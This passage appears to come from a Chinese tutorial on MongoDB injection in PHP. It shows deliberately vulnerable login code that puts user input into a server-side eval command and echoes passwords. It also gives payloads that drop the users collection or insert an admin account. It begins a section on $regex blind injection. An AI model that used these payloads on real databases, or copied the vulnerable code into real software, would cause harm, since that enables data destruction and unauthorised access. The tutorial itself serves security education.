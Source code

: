 还有人喜欢用 Command 去实现 MongoDB 的 `distinct` 方法，如下：

```sql
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];

$cmd = new MongoDB\Driver\Command( [
    'eval' => "db.users.distinct('username',{'username':'$username'})"
] );

$result = $manager->executeCommand('test.users', $cmd)->toArray();
$count = count($result);
if ($count > 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```

这样都是很危险的，因为这个就相当于把 Mongo Shell 开放给了用户，如果此时构造下列 payload：

```sql
username=1'});db.users.drop();db.user.find({'username':'1
username=1'});db.users.insert({"username":"admin","password":123456"});db.users.find({'username':'1
```

则将改变原本的查询语句造成注入。如果当前应用连接数据库的权限恰好很高，我们能干的事情就更多了。

### 2.3.3 布尔盲注

当页面没有回显时，那么我们可以通过 `$regex` 正则表达式来进行盲注， `$regex` 可以达到和传统 SQL 注入中 `substr()` 函数相同的功能。

我们还是利用第一个 index.php 进行演示：

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];

$query = new MongoDB\Driver\Query(array(
    'username' => $username,
    'password' => $password
));

$result = $manager->executeQuery('test.users', $query)->toArray();
$count = count($result);
if ($count > 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```